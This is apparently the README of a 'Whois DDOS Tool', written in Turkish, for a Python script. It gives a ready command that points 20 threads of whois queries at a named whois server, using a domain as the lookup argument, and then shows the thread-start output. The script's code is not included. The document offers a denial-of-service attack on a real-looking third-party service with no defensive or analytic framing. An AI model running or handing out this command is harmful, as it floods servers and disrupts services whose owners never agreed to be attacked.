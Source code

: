  
Whois DDOS Tool
----------------

Betik asagidaki sekilde calistirilmaktadir.

# ./whois_ddos.py -h whois.nicproxy.com agguvenligi.net 20
0 : thread is started ...
1 : thread is started ...
2 : thread is started ...
3 : thread is started ...
4 : thread is started ...
5 : thread is started ...
6 : thread is started ...
7 : thread is started ...
8 : thread is started ...
9 : thread is started ...
10 : thread is started ...
11 : thread is started ...
12 : thread is started ...
13 : thread is started ...
14 : thread is started ...
15 : thread is started ...
16 : thread is started ...
17 : thread is started ...
18 : thread is started ...
19 : thread is started ...
